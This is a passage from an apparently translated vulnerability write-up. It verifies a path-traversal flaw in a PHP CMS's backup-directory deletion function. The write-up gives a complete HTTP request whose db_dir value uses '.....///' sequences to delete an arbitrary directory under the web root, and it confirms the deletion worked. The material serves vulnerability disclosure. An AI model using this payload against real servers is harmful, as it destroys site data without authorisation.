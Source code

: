 **302 is a normal response**

![image-20250129215303979](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215303979.png)

Checked the `data/backup-data` sibling directory `11` and its substructures, found that they were successfully deleted.

![image-20250129215331402](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215331402.png)

To avoid errors and continue verification, create a directory `111` at the same level as `data` (i.e., a subdirectory directly under the website root) which may include substructures.

![image-20250129215414428](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215414428.png)

**Constructing the Payload**

```http
GET /index.php?case=database&act=deletedir&admin_dir=admin&site=default&db_dir=databack_2025-01-27-17-17-YTRiYz_7779/.....///.....///.....///111 HTTP/1.1
Host: 192.168.5.6:5678
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fd4dgj9s9ib24l6jil8uakhijd; login_username=admin; login_password=mvgoWX7V4jltNikmT1BjPZKXQx9tSvwsPkbh9wCe8iBaZ2ab18391e6e61e99aff8e10d05e4ad02
Connection: keep-alive


```

![image-20250129215449390](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215449390.png)

**Checked the `data` sibling directory `111` and its substructures, found that they were successfully deleted.**

![image-20250129215507484](C:\Users\Rorochan\AppData\Roaming\Typora\typora-user-images\image-20250129215507484.png)



**Vulnerability verification successful.**